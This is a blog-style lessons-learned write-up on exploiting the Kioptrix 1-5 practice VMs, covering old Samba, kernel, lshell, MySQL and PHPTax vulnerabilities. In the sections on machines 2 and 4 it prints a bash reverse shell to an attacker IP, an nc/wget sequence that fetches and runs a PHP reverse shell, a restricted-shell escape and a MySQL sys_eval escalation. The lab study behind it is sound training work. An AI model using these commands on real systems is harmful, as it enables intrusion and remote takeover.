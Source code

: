 # Kioptrix 1-5: Lessons Learned

> "The majority of vulnerabilities in the Linux kernel... have been released just recently" ([source]( https://forums.grsecurity.net/viewtopic.php?f=7&t=4476))

The Kioptrix VMs have a reputation for being excellent, albeit somewhat easy VMs with real practical vulnerabilities similar to those in the OSCP exam. This afternoon, I set myself a challenge to blast through all five as quickly as possible.

While the vulns in Kioptrix are now ancient and long-patched, who knows what kind of nasty vulns lurk in the kernel source today?

There are more than enough walkthroughs already available for these VMs so instead I'm just going to be listing some of my observations.

### 1
- Ancient exploit code dating back to 2002 can still be taken advantage of so long as you are willing to update it. I spent a while fixing the C code, but there are already [guides out there](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) for doing so. In my case I had to compile with libssl1.0-dev rather than libssl-dev, and I also removed the line that wgets necessary file onto the victim machine - better to drop into a shell and download a file yourself rather than rely on an old link...
- Searchsploit is very helpful, but sometimes it's information overload... searching for `samba 2.2` produced 17 results, most of which are different versions of the same exploit which no longer work (including the Metasploit modules). On the other hand, `linux/remote/10.c` instantly popped the box, and apparently targets multiple UNIXes - ideally there should be a reliability rating.
- Lessons learned: when exploiting older vulnerabilities, investigate the different options, and prepare to update some C headers.

### 2
- I spent a while working out how to get the best shell from the command injection vuln. Initially, I went with `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` which worked fine, but knowing the server was running PHP I soon recalled the following pair of commands would be great for putting an arbitrary file/shell onto it: `cat phpreverseshell.php | nc -lvp 1234` (attacker) and `wget 192.168.56.101:1234 -O /tmp/meep.php` then `php /tmp/meep.php` (victim)
- I connected to the MySQL database early on in this challenge and wasted too much time trying to use the passwords I found, to no avail. I should have been looking for other vulnerabilities simultaneously.
- [CVE-2009-2698](https://www.exploit-db.com/exploits/9542/), a kernel null dereferencing bug, was devastating, allowing instant escalation to root. 

### 3
- This VM contained so much vulnerable stuff, it was the hacker equivalent of being a kid in a candy shop. There was even a stray Metasploit installation sitting in the /opt directory for some reason.
- If an application complains that it wants an xterm-256 color console over ssh, the problem can be solved simply by running `export TERM=xterm`.
- I was getting segmentation faults in the privileged HT editor program whenever I tried to save files; it took me a few minutes to realise I forget to run it as sudo. Lessons learned: don't make that mistake again.

### 4
- When this VM was created, lshell (a Python restricted shell) was vulnerable to a pretty serious escape (`echo os.system(‘/bin/bash’)`). I also tried numerous newer breakouts reported in the [issue tracker](https://github.com/ghantoos/lshell/issues/) and none were functional. So it seems a bunch more vulns or regressions were introduced even after this big one was patched.
- Someone wrote [exploit code](https://www.exploit-db.com/exploits/39632/) for the lshell vuln. This is total overkill, especially given that the exploit only gives you a pseudo-shell! 
- Running MySQL as root is a terrible idea. One way to exploit is by using `SELECT sys_eval('command')` statements to escalate to root after loading in the [system functions library](https://github.com/sqlmapproject/sqlmap/tree/master/udf). This time round the library was helpfully included for us.
- Turns out there was a critical kernel root vuln in this one too, [sock_sendpage](https://www.exploit-db.com/exploits/9479/).
- Lessons learned: apps that were insecure once, and then patched, could easily become insecure again as buggy new features are added.

### 5
- This took the longest to get started on by far. I initially missed the comment in the HTML page as at a glance it just looked like a standard META tag. Also, I should have written a quick script for automatically exploring the file inclusion vulnerability rather than paging around by hand.
- PHPTax, why haven't I heard of this before?!
- The PHPTax exploit worked even though the user agent string wasn't what was specified in the "Allow from" Apache config. I'm not sure why.
- When trying to compile the final root exploit on the FreeBSD box, I kept getting the error: `/usr/lib/crt1.o: In function _start': crt1.c:(.text+0x8a): undefined reference to main'`. I thought I was missing some shared libraries, and was trying all sorts of things, but then suddenly realised that the file I was trying to compile was 0 bytes size. D'oh. I was tired at this point and had gotten the netcat syntax slightly wrong (in Debian the -p flag must explicitly be used, whereas nc -l 3333 works on some other platforms..)
- There was an intrusion detection system (OSSec) but it never got in my way.
- Lessons learned: it's worth taking the time to script up a task that looks like it might be repetitive. There is such a thing as an insecure PHP app for doing your taxes. Always use the verbose flag with nc to catch any obvious errors.

All in all, it was a satisfying afternoon, an historic tour of some heavy-hitting vulnerabilities. The VMs are well designed and get progressively more challenging. It's a bit 'point-and-click' with all the ready-made exploit code, but this is what pentesting often involves after all (besides a lot of report-writing).

